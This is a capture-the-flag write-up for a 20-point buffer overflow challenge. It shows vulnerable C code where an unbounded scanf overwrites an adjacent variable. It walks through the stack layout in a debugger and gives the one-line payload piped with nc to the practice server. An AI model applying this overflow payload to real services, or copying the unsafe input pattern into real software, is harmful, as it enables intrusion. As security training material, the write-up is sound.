

# bof2
**Category:** Pwn

**Points:** 20

**Description:**

Author: kablaa

nc ctf.hackucf.org 9001

> **Files:** bof2, bof2.c, libpwnableharness32.so

## Write-up
This is a buffer overflow challenge, and the code file was provided.

Looking at the code the important function seemed to be `handle_connection()` as it contains a `scanf()` call into a buffer of 64 chars:
```c
void handle_connection(int sock) {
	int correct = 0;
	char bof[64];
	
	scanf("%s", bof);
	
	if(correct != 0xdeadbeef) {
		puts("you suck!");
		exit(0);
	}
	
	win();
}
```

When the program runs it waits for input at this point, and overflowing the buffer may overflow into the `correct` variable.

To test this I first created a file with 64 A characters in. This allows us to see how the stack is organised.
```
> python -c "print('A'*64)" > inp_file.txt
```

First, for this run of the code, we can see that our `correct` variable ends up at 0xffbab10c (I guessed this was the `correct` variable as it is set to 0):


We can see this area on the stack (highlighted in yellow):


If we move the debugger on one step, we can see this area get zeroed:


We can also see that our `bof` array is at 0xffbab0cc (must be `bof` as it's being set up for use in the `scanf()`):


If we send our 64 A characters in, we can clearly see this array on the stack:



We can also see that it sits right up against our `correct` variable, so we should be able to set `correct` to 0xdeadbeef by sending those characters after our 64 A characters (we need to reverse the order because - little endian). Our input file is now set with:
```
> python -c "print('A'*64 + '\xef\xbe\xad\xde')" > inp_file.txt
```

If we run this and look at the stack we can now see our A characters followed by our `deadbeef`:


Tracing through, we end up in the `win()` function. So now it's time to try it on the server:
```
> python -c "print('A'*64 + '\xef\xbe\xad\xde')" | nc ctf.hackucf.org 9001
````

This worked, and gave me the flag.
